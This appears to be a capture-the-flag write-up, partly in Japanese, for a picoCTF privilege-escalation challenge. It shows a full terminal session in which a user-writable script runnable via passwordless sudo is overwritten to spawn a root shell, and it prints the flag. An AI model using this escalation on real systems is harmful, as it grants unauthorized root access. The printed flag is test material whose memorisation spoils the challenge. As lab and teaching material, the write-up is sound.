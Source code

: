 # hijacking:bynary Medium  
Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.  

Additional details will be available after launching your challenge instance.  

# Solution  
ssh接続する  
ssh -p 56840 picoctf@saturn.picoctf.net  
The authenticity of host '[saturn.picoctf.net]:56840 ([13.59.203.175]:56840)'n't be established.  
ED25519 key fingerprint is SHA256:lAxuAwDPxkngr5Aw0vqCbwmNz/+0ii8HjltkWeRcMjw.  
This host key is known by the following other names/addresses:  
    ~/.ssh/known_hosts:32: [hashed name]  
    ~/.ssh/known_hosts:35: [hashed name]  
    ~/.ssh/known_hosts:36: [hashed name]  
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes  
Warning: Permanently added '[saturn.picoctf.net]:56840' (ED25519) to the list of known hosts.  
picoctf@saturn.picoctf.net's password:   
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1023-aws x86_64)  

 * Documentation:  https://help.ubuntu.com  
 * Management:     https://landscape.canonical.com  
 * Support:        https://ubuntu.com/advantage  

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.  

To restore this content, you can run the 'unminimize' command.  

picoctf@challenge:~$ ls -la  
total 16  
drwxr-xr-x 1 picoctf picoctf   20 Jul  6 06:39 .  
drwxr-xr-x 1 root    root      21 Aug  4  2023 ..  
-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout  
-rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc  
drwx------ 2 picoctf picoctf   34 Jul  6 06:39 .cache  
-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile  
-rw-r--r-- 1 root    root     375 Feb  7  2024 .server.py  


The programs included with the Ubuntu system are free software;  
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.  

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.  

picoctf@challenge:~$ sudo -l  
Matching Defaults entries for picoctf on challenge:  
    env_reset, mail_badpass,  
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  

User picoctf may run the following commands on challenge:  
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py  

picoctf@challenge:〜$ cat .server.py  
import base64  
import os  
import socket  
ip = 'picoctf.org'  
response = os.system("ping -c 1 " + ip)  
#saving ping details to a variable  
host_info = socket.gethostbyaddr(ip)   
#getting IP from a domaine  
host_info_to_str = str(host_info[2])  
host_info = base64.b64encode(host_info_to_str.encode('ascii'))  
print("Hello, this is a part of information gathering",'Host: ', host_info)  
picoctf@challenge:〜$ vi .server.py  
picoctf@challenge:〜$ cat .server.py  
import os  
os.system("/bin/bash")  

picoctf@challenge:〜$ sudo /usr/bin/python3 /home/picoctf/.server.py  
root@challenge:/home/picoctf# ls -la  
total 24  
drwxr-xr-x 1 picoctf picoctf   73 Jul  6 06:42 .  
drwxr-xr-x 1 root    root      21 Aug  4  2023 ..  
-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout  
-rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc  
drwx------ 2 picoctf picoctf   34 Jul  6 06:39 .cache  
-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile  
-rw-r--r-- 1 picoctf picoctf   33 Jul  6 06:42 .server.py  
-rw-r--r-- 1 picoctf picoctf  375 Feb  7  2024 .server.py~  
-rw------- 1 picoctf picoctf  812 Jul  6 06:42 .viminfo  
root@challenge:/home/picoctf# cd /  
root@challenge:/# ls -la  
total 0  
drwxr-xr-x   1 root   root     51 Jul  6 06:38 .  
drwxr-xr-x   1 root   root     51 Jul  6 06:38 ..  
-rwxr-xr-x   1 root   root      0 Jul  6 06:38 .dockerenv  
lrwxrwxrwx   1 root   root      7 Mar  8  2023 bin -> usr/bin  
drwxr-xr-x   2 root   root      6 Apr 15  2020 boot  
d---------   1 root   root      6 Sep 26  2024 challenge  
drwxr-xr-x   5 root   root    340 Jul  6 06:38 dev  
drwxr-xr-x   1 root   root     66 Jul  6 06:38 etc  
drwxr-xr-x   1 root   root     21 Aug  4  2023 home  
lrwxrwxrwx   1 root   root      7 Mar  8  2023 lib -> usr/lib  
lrwxrwxrwx   1 root   root      9 Mar  8  2023 lib32 -> usr/lib32  
lrwxrwxrwx   1 root   root      9 Mar  8  2023 lib64 -> usr/lib64  
lrwxrwxrwx   1 root   root     10 Mar  8  2023 libx32 -> usr/libx32  
drwxr-xr-x   2 root   root      6 Mar  8  2023 media  
drwxr-xr-x   2 root   root      6 Mar  8  2023 mnt  
drwxr-xr-x   2 root   root      6 Mar  8  2023 opt  
dr-xr-xr-x 241 nobody nogroup   0 Jul  6 06:38 proc  
drwx------   1 root   root     23 Sep 26  2024 root  
drwxr-xr-x   1 root   root     54 Jul  6 06:39 run  
lrwxrwxrwx   1 root   root      8 Mar  8  2023 sbin -> usr/sbin  
drwxr-xr-x   2 root   root      6 Mar  8  2023 srv  
dr-xr-xr-x  13 nobody nogroup   0 Jul  6 06:38 sys  
drwxrwxrwt   1 root   root      6 Sep 26  2024 tmp  
drwxr-xr-x   1 root   root     18 Mar  8  2023 usr  
drwxr-xr-x   1 root   root     17 Mar  8  2023 var  
root@challenge:/# cd root  
root@challenge:~# ls -la  
drwx------ 1 root root   23 Sep 26  2024 .  
drwxr-xr-x 1 root root   51 Jul  6 06:38 ..  
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc  
-rw-r--r-- 1 root root   43 Sep 26  2024 .flag.txt  
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile  
root@challenge:〜# cat .flag.txt  
picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}  

# 考えたこと  
ユーザ権限をルートへの昇格を狙う。  
SUDO -lをしたところ/usr/bin/python3 /home/picoctf/.server.pyはパスワードがいらないことがわかった。  
なので、次に.server.pyを編集する。（.server.pyに書き込み権限があるため実行できる）  
そして、SUDOで/usr/bin/python3 /home/picoctf/.server.pyを実行するとルートへ昇格できた。  
最後にルートディレクトリのFLAG.txtをcatコマンドで実行するとFLAG.txtが獲得できた  

# ポイント  
sudoでpyton3プロセスが起動するー＞python3がルート権限で実行される。  
その後、.server.pyが実行されると内部のos．sytem（"/bin/bash"）が実行される。  
よって、ルート権限をもつbashプロセスがターミナルに表示される。  
＊pyton3のルート権限を引き継いでいるだけなのでos．sytem（"/bin/bash"）を実行すると権限が昇格するわけではない  